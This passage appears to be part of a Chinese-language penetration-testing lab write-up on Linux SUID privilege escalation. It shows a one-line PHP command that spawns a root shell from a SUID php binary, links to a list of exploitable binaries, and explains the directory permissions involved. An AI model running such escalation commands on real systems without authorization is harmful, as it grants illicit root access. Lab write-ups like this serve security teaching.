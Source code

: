 找到了`/var/bin/php`可执行文件，该文件是可以用来 SUID 提权的，方法如下：

```bash
/var/bin/php -r "pcntl_exec('/bin/sh', ['-p']);"
```

![图片描述](..\images\2021-01-23_91.jpg)

如上图所示，我们成功提权到 root 权限。

- 关于哪些可执行文件可以用来 SUID 提权，可以通过以下链接进行查询：

```bash
https://github.com/iSecurity-Club/Pentest-Methodologies/tree/master/PostExploit/LinuxPE/SUID/Summary
```

大家思考一下：**为什么 `alice` 用户能够查找到具有 s 权限的 php 可执行文件，而 `www-data` 用户找不到呢？**

其实答案就是目录权限的区别，让我们查看一下 `/var/bin` 目录权限：

```bash
ls -lh /var
```

![图片描述](..\images\2021-01-23_92.jpg)

可以看到，`/var/bin`目录的所有者和所有组均为 alice，其他用户并没有`读/写/执行`权限。

